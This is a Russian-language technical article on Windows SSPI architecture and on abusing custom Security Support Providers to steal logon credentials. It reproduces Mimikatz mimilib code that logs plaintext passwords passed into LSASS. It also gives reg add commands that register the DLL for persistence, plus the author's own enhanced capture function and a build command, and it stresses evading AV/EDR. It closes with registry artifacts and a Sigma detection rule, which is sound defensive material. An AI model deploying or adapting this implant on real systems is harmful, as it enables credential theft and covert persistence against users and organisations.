


## Теория

Security Support Provider Interface - **программный интерфейс в Microsoft Windows между приложениями и провайдерами безопасности**.

SSPI используется для отделения протоколов уровня приложения от деталей реализации сетевых протоколов безопасности и обеспечивает уровень абстракции для поддержки множества механизмов аутентификации.

### Архитектура


### Слой приложений:
На данном слое находятся приложения, которые нуждаются в безопасной аутентификации и обмене данными. Приложение решает, что ему нужно установить защищенное соединение. Оно не хочет знать детали протоколов (NTLM, Kerberos и др.). Вместо этого оно:
1. Вызывает стандартные функции из API Windows ([AcquireCredentialsHandle](https://learn.microsoft.com/ru-ru/windows/win32/api/sspi/nf-sspi-acquirecredentialshandlea), [InitializeSecurityContext](https://learn.microsoft.com/en-us/windows/win32/secauthn/initializesecuritycontext--general) и др.).
2. Использует единый, унифицированный **интерфейс SSPI**.
**Например:** 
	1. **Приложение** вызывает `InitializeSecurityContext("Negotiate")`
	2. **SSPI** передает вызов пакету `Negotiate`
	3. **Negotiate** выбирает `Kerberos` или `NTLM`
	4. **Выбранный SSP** формирует токен аутентификации
	5. **Токен** передается через сеть и проверяется на другой стороне

### Слой SSPI:
Данный слой представляет собой интерфейс, который является посредником между приложениями и конкретными протоколами безопасности.
**Общая схема работы выглядит так:**
1. **Получение запроса:** SSPI получает запрос от приложения (например, "аутентифицируй меня для службы `HTTP/fileserver.corp.com`").
2. **Абстракция:** SSPI отделяет приложение от сложностей протоколов. Приложение работает с общими понятиями: "дескрипторы учетных данных", "дескрипторы контекста", "токены".
3. **Маршрутизация:** SSPI определяет, какому именно **SSP** передать запрос. Чаще всего он передает его пакету `Negotiate`, который уже и принимает решение.
4. **Возврат результата:** SSPI получает результат от нижележащего SSP (например, сформированный NTLM-токен) и передает его обратно приложению в стандартизированном виде.
### Слой SSPL:
Этот слой представляет из себя конкретные реализации протоколов безопасности. На схеме они изображены как отдельные блоки `SSP`. Каждый из них — это динамическая библиотека (DLL), которая знает все тонкости своего протокола. 
Конкретный SSP получает запрос от SSPI, выполняет все необходимые криптографические операции и возвращает SSPI результат — токен аутентификации, готовый для отправки по сети.

**Ключевые SSP:**
1. **NTLM SSP (`msv1_0.dll`):**
    1. Реализует протокол NTLM-аутентификации.
    2. Используется, когда Kerberos недоступен (рабочие группы, устаревшие системы).
2. **Kerberos SSP (`kerberos.dll`):**
    1. Реализует протокол Kerberos v5.
    2. Является протоколом по умолчанию в доменах Active Directory.
3. **Negotiate SSP (`secur32.dll`):**
    1. Это "диспетчер" среди SSP. Он сам не проводит аутентификацию.
    2. Его задача — выбрать наиболее безопасный протокол из доступных (обычно Kerberos) и передать ему управление. Если Kerberos не сработал, откатывается к NTLM.
4. **Schannel SSP (`schannel.dll`):**
    1. Реализует протоколы SSL/TLS.
    2. Используется для защиты веб-трафика (HTTPS), VPN, защищенного LDAP (LDAPS).
5. **CredSSP (`credssp.dll`):**
    1. Используется для делегирования учетных данных, например, в Remote Desktop Services (RDP) и PowerShell Remoting.
6. **Digest SSP (`wdigest.dll`):**
    1. Реализует аутентификацию по протоколу Digest. Известен своей уязвимостью, из-за которой пароли в открытом виде хранились в памяти LSASS.

Итак, мы выяснили, SSPI является, своего рода, "посредником" между приложением и выбранным протоколом, который аутентифицирует запросы от него. 

## Кастомный SSP: суть и механизм работы

Но что делать, если нам по каким-то причинам необходимо использовать кастомный метод аутентификации? Не проблема! Microsoft учитывает хотелки и подготовил [документацию](https://learn.microsoft.com/en-us/windows/win32/secauthn/creating-custom-security-packages) с описанием требований и архитектуры SSP: "Если пользовательский пакет безопасности поставщика услуг поддержки безопасности (SSP) будет использоваться исключительно для поддержки безопасности клиентских и серверных систем, он может реализовывать интерфейс Microsoft [Security Support Provider Interface](https://learn.microsoft.com/en-us/windows/win32/secauthn/sspi)."

Здесь нам важно учитывать важное замечание: SSP пакет должен обеспечивать реализацию всех обязательных функций, реализуемых пакетами аутентификации, а также, если наш SSP или AP (authenticate package) предоставляет услуги для клиент-серверных приложений, он должен обеспечивать реализацию функций, описанных в [Функции, реализуемые SSP/AP в пользовательском режиме](https://learn.microsoft.com/en-us/windows/win32/secauthn/authentication-functions)

В общем случае, достаточно использовать:
1. Функции [управления пакетами](https://learn.microsoft.com/en-us/windows/win32/secauthn/authentication-functions#package-management)
2. Функции [управления учетными данными](https://learn.microsoft.com/en-us/windows/win32/secauthn/authentication-functions#credential-management)
3. Функции [управления контекстом](https://learn.microsoft.com/en-us/windows/win32/secauthn/authentication-functions#context-management)
4. Функции [поддержки сообщений](https://learn.microsoft.com/en-us/windows/win32/secauthn/authentication-functions#message-support)

Актуальный [перечень](https://learn.microsoft.com/en-us/windows/win32/api/ntsecpkg/nc-ntsecpkg-splsamodeinitializefn) функций:
```cpp
typedef struct _SECPKG_FUNCTION_TABLE {
  PLSA_AP_INITIALIZE_PACKAGE              // Инициализация пакета LSA
  PLSA_AP_LOGON_USER                      // Аутентификация пользователя через LSA
  PLSA_AP_CALL_PACKAGE                    // Вызов функций пакета безопасности
  PLSA_AP_LOGON_TERMINATED                // Уведомление о завершении сеанса
  PLSA_AP_CALL_PACKAGE_UNTRUSTED          // Вызов из ненадежного процесса
  PLSA_AP_CALL_PACKAGE_PASSTHROUGH        // Прозрачный вызов пакета
  PLSA_AP_LOGON_USER_EX                   // Расширенная аутентификация пользователя
  PLSA_AP_LOGON_USER_EX2                  // Аутентификация пользователя версии 2
  SpInitializeFn                          // Инициализация пакета безопасности
  SpShutdownFn                            // Завершение работы пакета
  SpGetInfoFn                             // Получение информации о пакете
  SpAcceptCredentialsFn                   // Прием учетных данных
  SpAcquireCredentialsHandleFn            // Получение handle учетных данных
  SpQueryCredentialsAttributesFn          // Запрос атрибутов учетных данных
  SpFreeCredentialsHandleFn               // Освобождение handle учетных данных
  SpSaveCredentialsFn                     // Сохранение учетных данных
  SpGetCredentialsFn                      // Получение учетных данных
  SpDeleteCredentialsFn                   // Удаление учетных данных
  SpInitLsaModeContextFn                  // Инициализация контекста в режиме LSA
  SpAcceptLsaModeContextFn                // Прием контекста в режиме LSA
  SpDeleteContextFn                       // Удаление контекста безопасности
  SpApplyControlTokenFn                   // Применение контрольного токена
  SpGetUserInfoFn                         // Получение информации о пользователе
  SpGetExtendedInformationFn              // Получение расширенной информации
  SpQueryContextAttributesFn              // Запрос атрибутов контекста
  SpAddCredentialsFn                      // Добавление учетных данных
  SpSetExtendedInformationFn              // Установка расширенной информации
  SpSetContextAttributesFn                // Установка атрибутов контекста
  SpSetCredentialsAttributesFn            // Установка атрибутов учетных данных
  SpChangeAccountPasswordFn               // Изменение пароля учетной записи
  SpQueryMetaDataFn                       // Запрос метаданных
  SpExchangeMetaDataFn                    // Обмен метаданными
  SpGetCredUIContextFn                    // Получение контекста UI учетных данных
  SpUpdateCredentialsFn                   // Обновление учетных данных
  SpValidateTargetInfoFn                  // Проверка целевой информации
  LSA_AP_POST_LOGON_USER                  // Пост-обработка входа пользователя
  SpGetRemoteCredGuardLogonBufferFn       // Получение буфера входа Credential Guard
  SpGetRemoteCredGuardSupplementalCredsFn // Получение доп. учетных данных Credential Guard
  SpGetTbalSupplementalCredsFn            // Получение доп. учетных данных TBAL
  PLSA_AP_LOGON_USER_EX3                  // Аутентификация пользователя версии 3
  PLSA_AP_PRE_LOGON_USER_SURROGATE        // Пред-обработка суррогатного входа
  PLSA_AP_POST_LOGON_USER_SURROGATE       // Пост-обработка суррогатного входа
  SpExtractTargetInfoFn                   // Извлечение целевой информации
} SECPKG_FUNCTION_TABLE, *PSECPKG_FUNCTION_TABLE;
```

Но есть среди этого большого набора самые важные (9-12), которые позволяют нам, как злоумышленнику, создать кастомный SSP для перехвата учетных данных пользователей.

### Mimikatz (mimilib.dll)

Бенджамин Делпи создал в составе [Mimikatz](https://github.com/ParrotSec/mimikatz) модуль **mimilib**, который представляет собой многофункциональную библиотеку для различных атак. Среди разнообразных компонентов особого внимания заслуживает **kssp** - компонент для перехвата учетных данных через механизм Security Support Provider Interface (SSPI).

**kssp** реализует кастомный SSP, который регистрируется в системе и получает возможность перехватывать учетные данные пользователей в момент аутентификации. В отличие от других модулей, работающих на сетевом уровне, kssp действует на уровне подсистемы безопасности Windows, что делает его особенно эффективным для сбора паролей и хэшей.

Общий механизм работы:
1. **Загрузка**: LSA загружает наш DLL в `lsass.exe`
2. **Инициализация**: Вызывается `kssp_SpLsaModeInitialize`
3. **Регистрация**: Система получает таблицу функций
4. **Аутентификация**: Пользователь входит в систему через реальный SSP (Kerberos/NTLM/тд)
5. **Рассылка**: LSA рассылает учетные данные всем зарегистрированным SSP
6. **Перехват**: Наша функция `kssp_SpAcceptCredentials` получает данные
7. **Логирование**: Пароли/хэши логируются

В общем случае, kiwissp использует следующие необходимые и достаточные функции для корректной работы SSP:
1. **Таблица функций** - `kiwissp_SecPkgFunctionTable`. Определяет, какие функции SSP реализованы. Большинство указателей - `NULL`, но обязательные 4 функции реализованы. Это позволяет не проводить аутентификацию, но принимать учетные данные.
```cpp
	static SECPKG_FUNCTION_TABLE kiwissp_SecPkgFunctionTable[] = {
    {
    NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, // Функции аутентификации 
    kssp_SpInitialize, kssp_SpShutDown, kssp_SpGetInfo, kssp_SpAcceptCredentials, //Функции управления УД
    NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, // Дополнительные функции
    NULL, NULL, NULL, NULL, NULL, NULL, NULL
    }
};
```

2. **Точка входа** - `kssp_SpLsaModeInitialize`. Когда LSA загружает mimilib.dll в процесс `lsass.exe`, она вызывает эту функцию первой. Код возвращает таблицу функций (`kiwissp_SecPkgFunctionTable`), говоря системе: "Вот какие функции я поддерживаю". Функция сообщает LSA версию интерфейса безопасности и предоставляет доступ к реализованным функциям SSP. 
	1. Важный момент: функция обратного вызова **SpLsaModeInitialize** вызывается один раз LSA для каждой загружаемой библиотеки DLL SSP/AP и обязательно должна быть в них реализована. Эта функция предоставляет LSA указатели на функции из **kiwissp_SecPkgFunctionTable**. Именно по этой причине данной функции нет в таблице функций. 
```cpp
	   NTSTATUS NTAPI kssp_SpLsaModeInitialize(ULONG LsaVersion, PULONG PackageVersion, PSECPKG_FUNCTION_TABLE *ppTables, PULONG pcTables)
{
    *PackageVersion = SECPKG_INTERFACE_VERSION; // расширяется в 0x00010000 (старый формат)
    *ppTables = kiwissp_SecPkgFunctionTable;  // Указание на таблицу функций
    *pcTables = ARRAYSIZE(kiwissp_SecPkgFunctionTable);
    return STATUS_SUCCESS;
}
```
3. **Инициализация пакета безопасности** - `kssp_SpInitialize`.  Функция вызывается один раз LSA для предоставления пакета безопасности общей информации о безопасности и таблицы вспомогательных функций. Пакет безопасности должен сохранять эту информацию и выполнять внутреннюю инициализацию, если она необходима. Необходимости в этом нет, поэтому возвращаем STATUS_SUCCESS.
```cpp
	   NTSTATUS NTAPI kssp_SpInitialize(ULONG_PTR PackageId, PSECPKG_PARAMETERS Parameters, PLSA_SECPKG_FUNCTION_TABLE FunctionTable)
{
	return STATUS_SUCCESS;
}
```
4. **Информация о пакете** - `kssp_SpGetInfo`. Сообщает системе информацию о нашем SSP: его имя, возможности и характеристики. Функция заполняет структуру `SecPkgInfoW`, говоря системе кто она и что делает (в данном случае, приём сетевых соединений).
```cpp
	   NTSTATUS NTAPI kssp_SpGetInfo(PSecPkgInfoW PackageInfo)
{
    PackageInfo->fCapabilities = SECPKG_FLAG_ACCEPT_WIN32_NAME | SECPKG_FLAG_CONNECTION; // Возможности пакета безопасности
    PackageInfo->wVersion   = 1; // Версия протокола пакета
    PackageInfo->wRPCID     = SECPKG_ID_NONE; // Идентификатор DCE RPC (не используется)
    PackageInfo->cbMaxToken = 0; // Максимальный размер токена
    PackageInfo->Name       = L"KiwiSSP";           // Имя нашего SSP
    PackageInfo->Comment    = L"Kiwi Security Support Provider"; // Описание SSP
    return STATUS_SUCCESS;
}
```
4. **Завершение работы пакета** - `kssp_SpShutDown`. Вызывается **перед выгрузкой DLL** из памяти LSA. Реализация этой функции должна освобождать все выделенные ресурсы, такие как учетные данные. Функция возвращает только STATUS_SUCCESS потому, что мы не выделяем ресурсы, требующие очистки и считаем функцию успешно выполненной.
```cpp
	   NTSTATUS NTAPI kssp_SpShutDown(void)
{
	return STATUS_SUCCESS;
}
```
5. **Доступ к данным**- `kssp_SpAcceptCredentials`. Самая важная функция, которая перехватывает учетные данные, когда реальный SSP успешно аутентифицирует пользователя и LSA рассылает полученные данные всем зарегистрированным SSP. Функция получает пароли в открытом виде (иногда хэш) из структуры `SECPKG_PRIMARY_CRED`, где пароль представлен в виде **UNICODE_STRING**.
```cpp
	   NTSTATUS NTAPI kssp_SpAcceptCredentials(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials)
{
    FILE *kssp_logfile;
    if(kssp_logfile = _wfopen(L"kiwissp.log", L"a"))
    {	
        klog(kssp_logfile, L"[%08x:%08x] [%08x] %wZ\\%wZ (%wZ)\t", 
             PrimaryCredentials->LogonId.HighPart, PrimaryCredentials->LogonId.LowPart, 
             LogonType, &PrimaryCredentials->DomainName, &PrimaryCredentials->DownlevelName, 
             AccountName);
        klog_password(kssp_logfile, &PrimaryCredentials->Password);  //  перехват пароля
        klog(kssp_logfile, L"\n");
        fclose(kssp_logfile);
    }
    return STATUS_SUCCESS;
}
```

### Пример атаки с mimilib.dll:
1. Скопировать mimilib.dll в папку System32
2. Добавить в ветку реестра LSA параметра Security Packages имя SSP "mimilb"
```bash
reg add "hklm\system\currentcontrolset\control\lsa" /v "Security Packages" /d "kerberos\0msv1_0\0tspkg\0pku2u\0wdigest\0schannel\0cloudAP\0mimilib" /t REG_MULTI_SZ
```
3. Добавить в ветку реестра OsConfig параметра Security Packages имя SSP "mimilb"
```bash
reg add "hklm\system\currentcontrolset\control\lsa\osconfig" /v "Security Packages" /d "kerberos\0msv1_0\0tspkg\0pku2u\0wdigest\0schannel\0cloudAP\0mimilib" /t REG_MULTI_SZ
```
4. Выполнить/дождаться входа из-под любой УЗ
5. Проверить перехваченные УД в файле C:\Windows\System32/kiwissp.log



Поскольку данный метод подразумевает постоянство файла, даже после перезагрузки системы, SSP продолжит свою работу.

### Свой SSP
Мы также можем реализовать собственный SSP для тех же целей, добавив в него свой функционал или расширить его. Так, например, поскольку я являюсь любителем информативности, я улучшил функцию логирования, добавив timestamp и сделал более презентабельное представление.

```cpp
NTSTATUS NTAPI kssp_SpAcceptCredentials(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials)
{
    FILE* kssp_logfile;

    if (_wfopen_s(&kssp_logfile, L"ssp.log", L"a") == 0 && kssp_logfile)
    {
        SYSTEMTIME st;
        GetLocalTime(&st);

        LPCWSTR logonTypeStr = L"Unknown";
        switch (LogonType)
        {
        case Interactive: logonTypeStr = L"Interactive"; break;
        case Network: logonTypeStr = L"Network"; break;
        case Batch: logonTypeStr = L"Batch"; break;
        case Service: logonTypeStr = L"Service"; break;
        case Proxy: logonTypeStr = L"Proxy"; break;
        case Unlock: logonTypeStr = L"Unlock"; break;
        case NetworkCleartext: logonTypeStr = L"NetworkCleartext"; break;
        case NewCredentials: logonTypeStr = L"NewCredentials"; break;
        case RemoteInteractive: logonTypeStr = L"RemoteInteractive"; break;
        case CachedInteractive: logonTypeStr = L"CachedInteractive"; break;
        case CachedRemoteInteractive: logonTypeStr = L"CachedRemoteInteractive"; break;
        case CachedUnlock: logonTypeStr = L"CachedUnlock"; break;
        }

        klog(kssp_logfile, L"=== SSP Credential Capture ===\n");
        klog(kssp_logfile, L"Timestamp: %04d-%02d-%02d %02d:%02d:%02d.%03d\n",
            st.wYear, st.wMonth, st.wDay, st.wHour, st.wMinute, st.wSecond, st.wMilliseconds);
        klog(kssp_logfile, L"Logon Type: %s (%d)\n", logonTypeStr, LogonType);

        klog(kssp_logfile, L"Session: [%08X:%08X]\n",
            PrimaryCredentials->LogonId.HighPart, PrimaryCredentials->LogonId.LowPart);

        klog(kssp_logfile, L"User Info:\n");
        klog(kssp_logfile, L"  Domain: %wZ\n", &PrimaryCredentials->DomainName);
        klog(kssp_logfile, L"  Username: %wZ\n", &PrimaryCredentials->DownlevelName);
        if (AccountName && AccountName->Length > 0)
            klog(kssp_logfile, L"  Account Name: %wZ\n", AccountName);

        klog(kssp_logfile, L"Credentials:\n");
        klog(kssp_logfile, L"  ");
        klog_password(kssp_logfile, &PrimaryCredentials->Password);
        klog(kssp_logfile, L"\n");

        if (PrimaryCredentials->Password.Length > 0)
        {
            klog(kssp_logfile, L"  Length: %d bytes\n", PrimaryCredentials->Password.Length);

            BOOLEAN isUnicode = FALSE;
            int flags = IS_TEXT_UNICODE_STATISTICS | IS_TEXT_UNICODE_ODD_LENGTH;
            if (PrimaryCredentials->Password.Buffer &&
                IsTextUnicode(PrimaryCredentials->Password.Buffer,
                    PrimaryCredentials->Password.Length, &flags))
            {
                isUnicode = TRUE;
            }

            klog(kssp_logfile, L"  Type: %s\n", isUnicode ? L"Text Password" : L"Hash/Binary");
        }

        klog(kssp_logfile, L"==================================\n\n");

        fclose(kssp_logfile);
    }

    return STATUS_SUCCESS;
}
```

В моём случае (WS 2016), сборку необходимо проводить для архитектуры х64:

```cpp
cl /nologo /TC /D WIN32_NO_STATUS /D SECURITY_WIN32 /D _CRT_SECURE_NO_WARNINGS /D NDEBUG /D _WINDOWS /D _USRDLL /O2 /W3 /LD /Fe:sspt.dll custom_ssp.c /link /NOLOGO /DLL /DEF:custom_ssp.def Secur32.lib Advapi32.lib
```

Также стоит отметить немаловажную особенность: поскольку, как я уже говорил выше, mimilib содержит в себе много лишнего функционала (в контексте SSP), целесообразным будет создание отдельного проекта.

### Пример атаки со своим .dll
```cpp
reg add "hklm\system\currentcontrolset\control\lsa" /v "Security Packages" /d "kerberos\0msv1_0\0tspkg\0pku2u\0wdigest\0schannel\0cloudAP\0sspt" /t REG_MULTI_SZ
reg add "hklm\system\currentcontrolset\control\lsa\osconfig" /v "Security Packages" /d "kerberos\0msv1_0\0tspkg\0pku2u\0wdigest\0schannel\0cloudAP\0sspt" /t REG_MULTI_SZ
```

На выходе получаем:



Такой подход помогает злоумышленникам добиться максимальной скрытности, поскольку выделенный SSP проект предпочтительнее универсальных решений типа mimilib, которые несут избыточный функционал и увеличивают риски обнаружения из-за дополнительных сигнатур AV/EDR.
# Артефакты
Основным артефактом использования кастомного SSP является модификация реестра в ключах `HKLM\SYSTEM\CurrentControlSet\Control\LSA\Security Packages` и `HKLM\SYSTEM\CurrentControlSet\Control\LSA\OSConfig\Security Packages`, где имя DLL кастомного провайдера добавляется в мультистроковый список системных пакетов безопасности.
# Детекция

```yaml
title: Suspicious LSA Security Package Registration
description: Detecting custom suspicious SSP
author: artrone
date: 2025/11/23
logsource:
    product: windows
    category: registry_set
detection:
    selection_4657:
    	EventID: 4657
        ObjectName|endswith: 
            - '\Control\Lsa'
            - '\Control\Lsa\OSConfig'
        ObjectValueName:
	        - 'Security Packages'
        OperationType: '%%1905'
    selection_13:
	    EventID: 13
        TargetObject: 
            - 'HKLM\System\CurrentControlSet\Control\Lsa\Security Packages'
            - 'HKLM\System\CurrentControlSet\Control\Lsa\OSConfig\Security Packages'
    condition: any of selection*
level: high
```

## Источники
1. https://learn.microsoft.com/en-us/windows/win32/
2. https://github.com/ParrotSec/mimikatz
3. Ralf Hacker Active Directory глазами хакера - БХВ-Петербург, 2021
